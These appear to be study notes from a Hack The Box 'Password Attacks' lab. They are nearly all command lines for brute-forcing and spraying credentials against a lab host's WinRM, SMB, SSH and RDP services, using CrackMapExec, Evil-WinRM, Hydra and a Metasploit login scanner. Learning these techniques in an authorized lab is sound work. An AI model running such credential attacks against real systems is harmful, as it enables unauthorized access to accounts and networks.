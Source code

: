 
https://github.com/byt3bl33d3r/CrackMapExec
SMB, LDAP, MSSQL, etc.

https://academy.hackthebox.com/storage/resources/Password-Attacks.zip

```shell-session
jabrach@htb[/htb]$ sudo apt-get -y install crackmapexec

jabrach@htb[/htb]$ crackmapexec winrm 10.129.42.197 -u user.list -p password.list
```

```shell-session
jabrach@htb[/htb]$ crackmapexec --verbose smb 10.129.42.197 -u "user" -p "password" --shares
```


#### Evil-WinRM
```
jabrach@htb[/htb]$ sudo gem install evil-winrm
```

```shell-session
jabrach@htb[/htb]$ evil-winrm -i 10.129.42.197 -u user -p password
```


SSH , RDP, SMB

```shell-session
jabrach@htb[/htb]$ hydra -L user.list -P password.list ssh://10.129.42.197
```


```shell-session
jabrach@htb[/htb]$ hydra -L user.list -P password.list rdp://10.129.42.197
```


```shell-session
jabrach@htb[/htb]$ hydra -L user.list -P password.list smb://10.129.42.197
```

smb

```shell
msfconsole -q
use auxiliary/scanner/smb/smb_login
set PASS_FILE password.list
set USER_FILE username.list
set RHOST STMIP
run
```